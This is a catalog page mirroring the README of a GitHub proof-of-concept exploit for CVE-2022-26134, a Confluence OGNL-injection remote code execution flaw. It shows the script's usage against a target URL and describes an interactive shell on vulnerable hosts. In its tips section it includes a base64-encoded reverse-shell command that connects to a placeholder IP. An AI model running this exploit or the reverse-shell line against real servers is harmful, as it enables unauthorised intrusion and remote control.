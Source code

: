 # CVE-2022-26134

[CVE-2022-26134]Confluence OGNL expression injected RCE with sandbox bypass.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/SNCKER](https://github.com/SNCKER) |
| Url      | [https://github.com/SNCKER/CVE-2022-26134](https://github.com/SNCKER/CVE-2022-26134)                                               |
| Stars    | 28                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* confluence* cve-2022-26134* rce* vulnerability

</details>

## Readme

# CVE-2022-26134
Confluence OGNL expression injected RCE(CVE-2022-26134) poc and exp

## Update
Add sandbox bypass, high version supported.

# Usage
```
Usage: python Confluence_cve_2022_26134_RCE.py http://example.com/
```

The script will auto check target is vulnerable, and enter a pseudo-interactive shell if it's vulnerable.

Test under linux：  
![linux](https://raw.githubusercontent.com/SNCKER/CVE-2022-26134/master/linux.jpg)

Test under windows：  
![windows](https://raw.githubusercontent.com/SNCKER/CVE-2022-26134/master/windows.jpg)

Just input 'q' when you want to quit.

# Some tips
Command parameters are directly passed to the runtime.exec method, which does not have the context of the shell.  
so.  
Under Windows, some commands such as `dir` cannot be executed directly, you can use `cmd.exe /c dir`.  
Under linux, some special symbols cannot take effect, If you need to execute some command with special symbols like reverse shell, you can base64 encode it and then use `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzg4ODggMD4mmQ==}|{base64,-d}|{bash,-i}`.  



## Get the content

```
git clone https://github.com/SNCKER/CVE-2022-26134
cd CVE-2022-26134
```

{% embed url="https://github.com/SNCKER/CVE-2022-26134" %}

<figure><img src="https://avatars.githubusercontent.com/u/49559334?v=4" alt=""><figcaption><p>SNCKER</p></figcaption></figure>
